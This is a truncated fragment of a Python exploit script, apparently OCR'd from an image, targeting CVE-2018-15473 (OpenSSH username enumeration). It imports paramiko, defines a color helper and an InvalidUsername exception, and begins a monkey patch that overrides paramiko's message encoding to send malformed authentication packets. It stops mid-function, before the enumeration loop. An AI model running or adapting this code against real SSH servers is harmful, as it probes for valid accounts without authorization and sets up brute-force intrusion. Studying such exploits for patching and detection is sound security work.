     from pathlib import Path

    import paramiko

    assert sys.version_info >= (3, 6), "This program requires python3.6 or higher"


    class Color:
        """ Class for coloring print statements.  Nothing to see here, move along. """
        BOLD = '\033[1m'
        ENDC = '\033[0m'
        RED = '\033[38;5;196m'
        BLUE = '\033[38;5;75m'
        GREEN = '\033[38;5;149m'
        YELLOW = '\033[38;5;190m'

        @staticmethod
        def string(string: str, color: str, bold: bool = False) -> str:
            """ Prints the given string in a few different colors.
            Args:
                string: string to be printed
                color:  valid colors "red", "blue", "green", "yellow"
                bold:   T/F to add ANSI bold code
            Returns:
                ANSI color-coded string (str)
            """
            boldstr = Color.BOLD if bold else ""
            colorstr = getattr(Color, color.upper())
            return f'{boldstr}{colorstr}{string}{Color.ENDC}'


    class InvalidUsername(Exception):
        """ Raise when username not found via CVE-2018-15473. """


    def apply_monkey_patch() -> None:
        """ Monkey patch paramiko to send invalid SSH2_MSG_USERAUTH_REQUEST.
            patches the following internal `AuthHandler` functions by updating the internal `_handler_table` dict
                _parse_service_accept
                _parse_userauth_failure
            _handler_table = {
                MSG_SERVICE_REQUEST: _parse_service_request,
                MSG_SERVICE_ACCEPT: _parse_service_accept,
                MSG_USERAUTH_REQUEST: _parse_userauth_request,
                MSG_USERAUTH_SUCCESS: _parse_userauth_success,
                MSG_USERAUTH_FAILURE: _parse_userauth_failure,
                MSG_USERAUTH_BANNER: _parse_userauth_banner,
                MSG_USERAUTH_INFO_REQUEST: _parse_userauth_info_request,
                MSG_USERAUTH_INFO_RESPONSE: _parse_userauth_info_response,
            }
        """

        def patched_add_boolean(*args, **kwargs):
            """ Override correct behavior of paramiko.message.Message.add_boolean, used to produce malformed packets. """
